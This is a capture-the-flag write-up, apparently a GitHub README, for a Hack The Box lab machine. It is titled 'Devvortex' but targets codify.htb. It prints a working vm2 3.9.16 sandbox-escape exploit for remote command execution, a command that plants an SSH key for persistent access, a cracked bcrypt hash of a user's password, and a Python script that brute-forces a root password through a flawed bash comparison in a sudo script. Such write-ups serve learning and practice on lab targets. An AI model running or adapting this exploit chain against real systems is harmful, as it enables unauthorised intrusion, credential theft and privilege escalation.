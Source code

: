 # Solver for Devvortex

For my opinion to privilage escalation to root is a bit guessy because the combination can be uppercase or lowercase and use symbol, so it will be a long time to bruteforce it if the password is strong

## Recon

### Check library/framework/cms version that the server use

The Server maybe using <https://github.com/patriksimek/vm2/releases/tag/3.9.16> , you can see in the about page <http://codify.htb/about>

### Check CVE/Vuln

In the security tab of github, VM2 Was identify vuln for RCE Bypass ( previously if we didnt use this bypass we cant RCE using node.js ) <https://gist.github.com/leesh3288/381b230b04936dd4d74aaf90cc8bb244>

```js
const {VM} = require("vm2");
const vm = new VM();

cmd = 'urpayloadcommandinjection'
const code = `
err = {};
const handler = {
    getPrototypeOf(target) {
        (function stack() {
            new Error().stack;
            stack();
        })();
    }
};
  
const proxiedErr = new Proxy(err, handler);
try {
    throw proxiedErr;
} catch ({constructor: c}) {
    c.constructor('return process')().mainModule.require('child_process').execSync(cmd);
}
`

console.log(vm.run(code));
```

alright we already craft the exploit, lets go into the exploit section

## Exploit

### Check if the exploit successfully

Now we put the payload 'id' to get the username of the user currently and we got output 'svc', alright and we know that the port 22 (ssh) is open so we can put our ssh public key in there and gaining ssh access

### Gaining SSH Access

Now we go to our machines and copy our ssh public key, in mine is cat ~/.ssh/id_rsa.pub , if you dont have you can generate a new one. then copy and put in the server, with payload

```sh
mkdir ~/.ssh; echo "yourpublickeypastehere" > ~/.ssh/authorized_keys;
```

### Getting Access to user joshua

We go to /var/www/ and we see all directory, one of the directory contains .db file. that is contacts , we strings the db and we got joshua$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2 . Now we can crack the pass using john

### Crack The Pass of joshua

we can crack using this command and we got the password using rockyou lists

## Privilage Escalation TO ROOT

Now we escalate with sudo -l now we can see if the program call backup db call. and its the sh file its vuln to bruteforcing the password /opt/scripts/mysql-backup.sh

```sh
DB_USER="root" 
DB_PASS=$(/usr/bin/cat /root/.creds)
BACKUP_DIR="/var/backups/mysql"

read -s -p "Enter MySQL password for $DB_USER: " USER_PASS
/usr/bin/echo

if [[ $DB_PASS == $USER_PASS ]]; then     # -- This Vuln because this check contains not validated full the strings. only if contains will pass so we can do bruteforce in here 
        /usr/bin/echo "Password confirmed!"
else
        /usr/bin/echo "Password confirmation failed!"
        exit 1
fi
```

we can do bruteforce with this script

```py
import subprocess
import string

combination = string.ascii_letters + string.digits
password = ""
while True:
    for char in combination:
        command = f"echo '{password+char}*' | sudo /opt/scripts/mysql-backup.sh"
        proc = subprocess.run(command,shell=True,stdout=subprocess.PIPE, stderr=subprocess.PIPE, text=True)
        if "Password confirmed!" in proc.stdout:
            password += char
            print(password)
            break
    
print(password)
```

 we obtain the password and go to the /root and obtain the flag
